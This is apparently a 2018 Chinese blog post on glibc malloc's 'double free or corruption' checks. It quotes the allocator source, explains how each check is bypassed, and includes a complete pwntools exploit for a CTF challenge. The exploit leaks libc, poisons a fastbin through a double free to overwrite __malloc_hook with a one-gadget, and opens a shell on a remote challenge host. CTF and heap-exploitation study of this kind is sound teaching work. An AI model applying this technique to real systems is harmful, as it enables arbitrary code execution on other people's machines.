 ```yaml
---
title: double free or corrupttion
date: 2018-11-14 17:12:30
tags: pwn basic
---
```

DOUBLE FREE OR CORRUPTION！

<!--more-->
# Souce
[源码][1]是一切问题的基础。
# Double free
这次主要从源码层面看看double free的各个报错成因，以及绕过姿势。

# Fastbin 
## fasttop
int_free===>if ((unsigned long)(size) <= (unsigned long)(get_max_fast ())
也就是free到fastbin对于doublefree的检测....非常友好
```python
 if (SINGLE_THREAD_P)
      {
        /* Check that the top of the bin is not the record we are going to
           add (i.e., double free).  */
        if (__builtin_expect (old == p, 0))
          malloc_printerr ("double free or corruption (fasttop)");
        p->fd = old;
        *fb = p;
      }
    else
      do
        {
          /* Check that the top of the bin is not the record we are going to
             add (i.e., double free).  */
          if (__builtin_expect (old == p, 0))
            malloc_printerr ("double free or corruption (fasttop)");
          p->fd = old2 = old;
        }
      while ((old = catomic_compare_and_exchange_val_rel (fb, p, old2))
             != old2);
```
这货比较无脑主要是check上个free过得chunk和现在的是不是一样....
所以绕过方式也比较简单
```python
free(1)
free(2)
free(1)
```
如果fastbin中可以freefree过的chunk，那么可以在fastbin中为所欲为...
## EZ_heap
su_2018_招新赛的一题[附件][2]
直接通过doublefree做fastbin_atk改写__malloc_hook然后doublefree触发printerr就可以了
```python
from pwn import *
def cmd(c):
	p.sendlineafter("choice : ",str(c))
def add(size,name,kind="A"):
	cmd(1)
	p.sendlineafter("name :",str(size))
	p.sendafter("animal :",name)
	p.sendlineafter("animal :",kind)
def show():
	cmd(2)
def free(idx):
	cmd(3)
	p.sendlineafter("cage:",str(idx))
def clear_all():
	cmd(4)
p=process("./pwn")
p=remote("43.254.3.203",10006)
#context.log_level='debug'
add(0x1000000090,"A\n")#0
add(0x18,"\n")#1
free(0)
add(0x18,"\n")#2
show()
p.readuntil("[2] :\n")
base=(u64((p.readline()[:-1]+"\x00").ljust(8,'\x00'))<<8)-(0x7fa2234a1b00-0x00007fa2230dd000)
log.warning(hex(base))
#gdb.attach(p)
add(0x60,"\n")#3
add(0x60,'\n')#4

free(3)
free(4)
free(3)
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc.address=base
add(0x60,p64(libc.symbols['__malloc_hook']-35))#3
add(0x60,"\n")#4
add(0x60,"\n")#5
one=0xf02a4+base
add(0x60,'\x00'*19+p64(one))
free(4)
free(4)
#gdb.attach(p)
p.interactive()

#x/8gx 0x0000000006020E0
```
# Not fastbin Not mmapped
主要有以下三个检测
```c
/* Lightweight tests: check whether the block is already the
       top block.  */
    if (__glibc_unlikely (p == av->top))
      malloc_printerr ("double free or corruption (top)");
    /* Or whether the next chunk is beyond the boundaries of the arena.  */
    if (__builtin_expect (contiguous (av)
                          && (char *) nextchunk
                          >= ((char *) av->top + chunksize(av->top)), 0))
        malloc_printerr ("double free or corruption (out)");
    /* Or whether the block is actually not marked used.  */
    if (__glibc_unlikely (!prev_inuse(nextchunk)))
      malloc_printerr ("double free or corruption (!prev)");
```
第一个检测是否是topchunk...一般利用的时候没啥问题
第二个检测本个chunk的末尾是否超出topchunk+topchunk_size...一般注意点改size没啥大问题
第三个检测应该是最常见的，检查下一个chunk的pre_preinuse位，解决方法也就是改pre_preinuse...
看完了doublefree...的几个报错感觉没啥好说的...都比较基础....
就当整合一下知识把...
## over
感觉double free 算是uaf中最友好的利用起来也非常人性化....
本来以为工作量挺大的....没想到20min就写完了....可能太菜了没发觉真正值得研究的东西...


[1]:https://code.woboq.org/userspace/glibc/malloc/malloc.c.html
[2]:https://github.com/n132/Watermalon/tree/master/SUCTF_2018